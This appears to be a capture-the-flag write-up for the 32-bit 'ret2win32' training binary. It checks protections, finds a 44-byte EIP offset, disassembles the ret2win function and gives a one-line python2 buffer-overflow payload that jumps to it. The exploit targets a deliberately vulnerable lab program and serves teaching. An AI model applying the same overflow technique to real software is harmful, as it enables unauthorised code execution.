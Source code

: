 # Basic Test:

## Check call system into binary file
```bash
strace ./ret2win32
```

## Check protection into binary file
```bash
checksec ./ret2win32
```

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

<br>

# Exploitation:

## Clear the kernel ring buffer
```bash
sudo dmesg -C
```

## Find offset for overwrite EIP
```bash
python2 -c 'print "A"*44 + "B"*4' | ./ret2win32
```

## See output
```bash
sudo dmesg -T
```

	[sam. avril  8 13:18:56 2023] ret2win32[31929]: segfault at 42424242 ip 0000000042424242 sp 00000000ffed7d00 error 14 in libc.so.6[f7c00000+22000] likely on CPU 0 (core 0, socket 0)

## Find the return address to print the flag

```bash
pwngdb> disass*ret2win
```
 
	   0x0804862c <+0>:     push   ebp
	   0x0804862d <+1>:     mov    ebp,esp
	   0x0804862f <+3>:     sub    esp,0x8
	   0x08048632 <+6>:     sub    esp,0xc
	   0x08048635 <+9>:     push   0x80487f6
	   0x0804863a <+14>:    call   0x80483d0 <puts@plt>
	   0x0804863f <+19>:    add    esp,0x10
	   0x08048642 <+22>:    sub    esp,0xc
	   0x08048645 <+25>:    push   0x8048813
	   0x0804864a <+30>:    call   0x80483e0 <system@plt>
	   0x0804864f <+35>:    add    esp,0x10
	   0x08048652 <+38>:    nop
	   0x08048653 <+39>:    leave
	   0x08048654 <+40>:    ret

## Payload final CLI

```bash
python2 -c 'print "A"*44 + "\x2c\x86\x04\x08"' | ./ret2win32 #0x0804862c
```